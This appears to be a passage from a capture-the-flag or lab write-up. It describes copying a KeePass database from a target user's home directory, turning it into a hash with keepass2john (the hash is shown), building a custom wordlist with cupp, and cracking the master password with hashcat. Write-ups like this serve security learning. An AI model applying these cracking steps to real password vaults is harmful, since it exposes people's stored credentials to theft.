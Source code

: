 I also found a keepass database in the `lhotse` home directory that I transfered to my machine using `scp`. With the previous discovered information on `lhotse`, it is worth creating a custom wordlist in order to crack the db's password.

First of all, I used `keepass2john` in order to transform the db file to a crackable hash.

`/opt/john/run/keepass2john Backup.kdbx | grep -o "$keepass$.*" > backup_hash`

Which resulted in:

`$keepass$*2*60000*0*2b0923214b16de78e65375b4c780bf658cdc7908734b4a7786bbd552e712ceb3*0c9957050dae8e352fc34655fd954f929d0829aaa6499830e5892f33d3cde74c*aa993f04d0d4b3523a8fefb2fb490731*4f3ddb248453419d0f795
58d715b8162ea59235fbedbaad04b695a78ffcf3c1e*457370632868aed656df4d2d927fc84a692e0f873ee58b177b32ee4e1f1d0776`

Then I used `cupp` to create a custom wordlist. 

![](./assets/cupp_poc.png)

Finally, I was able to crack the password:

`hashcat -a 0 -m 13400 backup_hash mount.txt`
